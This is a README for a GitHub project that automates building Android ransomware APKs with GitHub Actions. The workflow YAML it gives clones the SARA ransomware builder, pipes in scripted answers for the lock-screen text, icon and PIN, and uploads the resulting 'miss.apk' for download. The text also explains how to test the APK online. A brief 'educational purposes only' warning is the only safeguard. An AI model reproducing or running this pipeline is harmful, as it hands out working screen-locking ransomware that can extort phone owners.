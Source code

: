 # GitHub-Actions-Ransomware-APK

This repository provides an automated solution for creating Ransomware APKs using GitHub Actions. This setup leverages the power of CI/CD to build and deploy APK files for educational and research purposes. 

> **Warning:** This project is intended for educational purposes only. Misuse of ransomware can lead to legal consequences.

## Table of Contents
- Prerequisites
- Repository Structure
- Setting Up GitHub Actions
- Workflow Configuration
- Downloading the APK
- Testing APKs Online
- Ethical Considerations
- License

## Prerequisites
- An Android project hosted on GitHub.
- Basic knowledge of Git and GitHub.
- Familiarity with Android development and APK creation.

## Repository Structure
Ensure your repository has the following structure:

    .github/workflows/main.yml


## Setting Up GitHub Actions
1. **Create the necessary directories**:
   - In the root of your repository, create a directory named `.github`.
   - Inside `.github`, create another directory named `workflows`.

2. **Create the workflow file**:
   - Inside the `workflows` directory, create a file named `main.yml`.

## Workflow Configuration
Edit the `main.yml` file with the following configuration:

```yaml
name: Run SARA Installation and Customize Screen Ransomware

on:
  push:
    branches:
      - main
  pull_request:
    branches:
      - main

jobs:
  install-sara:
    runs-on: ubuntu-latest

    steps:
    - name: Checkout code
      uses: actions/checkout@v2

    - name: Install dependencies and run SARA with custom config
      run: |
        # Clone the SARA repository
        git clone https://github.com/termuxhackers-id/SARA
        cd SARA
        # Install dependencies
        sudo bash install.sh
        # Automatically select option 3 and fill in custom configuration
        echo -e "3\nmiss\nswati\nhellow word\nrobot.png\n12345678\n2" | python3 sara.py || true
        
        # Check if miss.apk was created
        if [ ! -f miss.apk ]; then
          echo "Error: miss.apk was not created."
          exit 1
        fi
        echo "APK created successfully."

    - name: List files for debugging
      run: |
        echo "Current directory contents:"
        ls -la ./SARA  # Adjust if necessary to show the correct directory

    - name: Upload APK as artifact
      if: success()  # Only upload if previous steps succeeded
      uses: actions/upload-artifact@v3
      with:
        name: miss.apk
        path: ./SARA/miss.apk  # Ensure this is the correct path to the APK
        retention-days: 1  # Keep the artifact for 1 day
      continue-on-error: true  # Ignore the upload error if it occurs

    - name: Clean up old artifacts (optional)
      run: |
        echo "This step can be used to clean up old artifacts if needed."
  ```

# Downloading the APK

After pushing changes to your repository:

  Navigate to the Actions tab in GitHub.
  Select the latest workflow run.
  In the Artifacts section, you’ll find the uploaded APK. Click to download it.


## Testing APKs Online
To avoid testing APKs directly on your phone, you can use online testing platforms. Once you've , you can upload it to services like [Uptoplay](https://www.uptoplay.net/media/system/ext/intro-androidemulator.php) for testing your APK files online.









